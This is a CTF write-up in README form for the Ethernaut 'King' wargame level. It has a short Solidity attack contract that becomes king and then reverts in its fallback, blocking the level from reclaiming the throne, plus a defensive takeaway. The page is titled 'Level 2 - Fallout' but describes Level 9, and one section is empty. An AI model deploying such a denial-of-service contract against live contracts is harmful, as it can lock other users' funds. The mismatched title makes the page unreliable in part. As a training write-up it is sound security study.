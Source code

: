 <div align="center">

<img src="../assets/levels/2-fallout.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 2 - Fallout</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Level 9 - King](#level-9---king)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [References](#references)

## Objectif

<img src="../assets/requirements/2-fallout-requirements.webp" width="800px"/>

## The hack

## Level 9 - King

It requires an understanding of how `transfer` works in solidity, and when and how to use it.

## Solution

Since in the `King` contract the `recieve` function transfers to the soon to be previous king the msg.value using `transfer` and it does not check if it has worked, all we need to do is deploy a contract that first becomes the king, and in its fall back make sure the transfer to it (which will happen when Ethernaut tries to take control off the level after you have submitted it) it will fail.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract KingAttack {

    // take in the address of the King contract, call its fallback to
    // pass it ether and become the new king
    // and then artifically induce failure by making a revert in our fallbakc
    // (because ethernaut is going to try take over  the contract,
    // but the transfer it does will fail as we're revertting it in our fallback)


    constructor (address _kingAddress) public payable {
        address(_kingAddress).call{value: msg.value}("");
        // the ("") symbolises that we're not calling a specific function but just the
        //fallback or receive

    }

    fallback() external payable {
        revert("Gotcha");
    }
}
```

## Takeaway

To use `call` instead of transfer and send, and to avoid re-entrancy with call, follow the check-effect-interaction pattern

## References

https://blog.chain.link/defi-security-best-practices/
https://www.kingoftheether.com/postmortem.html

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
